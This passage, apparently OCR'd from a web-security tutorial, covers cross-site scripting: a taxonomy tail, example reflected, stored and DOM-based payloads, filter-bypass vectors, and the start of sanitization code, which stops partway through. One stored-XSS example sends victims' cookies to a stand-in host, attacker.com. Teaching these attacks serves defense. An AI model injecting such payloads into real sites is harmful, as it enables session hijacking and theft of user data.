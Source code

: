 ```
│   ├── Client-side vulnerability
│   ├── JavaScript manipulation
│   ├── URL fragment exploitation
│   ├── No server involvement
│   └── Modern application risk
└── Blind XSS
    ├── Out-of-band execution
    ├── Delayed payload execution
    ├── Admin panel exploitation
    └── Log file injection
```

#### XSS Attack Examples
```html
<!-- Reflected XSS Example -->
<!-- URL: http://vulnerable-site.com/search?q=<script>alert('XSS')</script> -->
<div>Search results for: <script>alert('XSS')</script></div>

<!-- Stored XSS in Comments -->
<div class="comment">
    <p>Great article! <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script></p>
</div>

<!-- DOM-based XSS -->
<script>
function updateContent() {
    var userInput = location.hash.substring(1);
    document.getElementById('content').innerHTML = userInput;
}
// URL: http://vulnerable-site.com/page.html#<script>alert('DOM XSS')</script>
</script>

<!-- Advanced XSS Payloads -->
<!-- Bypass basic filters -->
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe srcdoc="<script>alert('XSS')</script>">

<!-- Event handler XSS -->
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus><option>

<!-- JavaScript protocol -->
<a href="javascript:alert('XSS')">Click me</a>
<form><button formaction="javascript:alert('XSS')">Submit</button></form>
```

#### XSS Prevention Techniques
```javascript
// Input Validation and Sanitization
function sanitizeInput(input) {
    // Whitelist approach
    const allowedPattern = /^[a-zA-Z0-9\s.,!?-]+$/;
    if (!allowedPattern.test(input)) {
        throw new Error('Invalid input detected');
    }
    return input;
}

// Output Encoding
function encodeForHTML(input) {
    return input
        .replace(/&/g, '&amp;')
```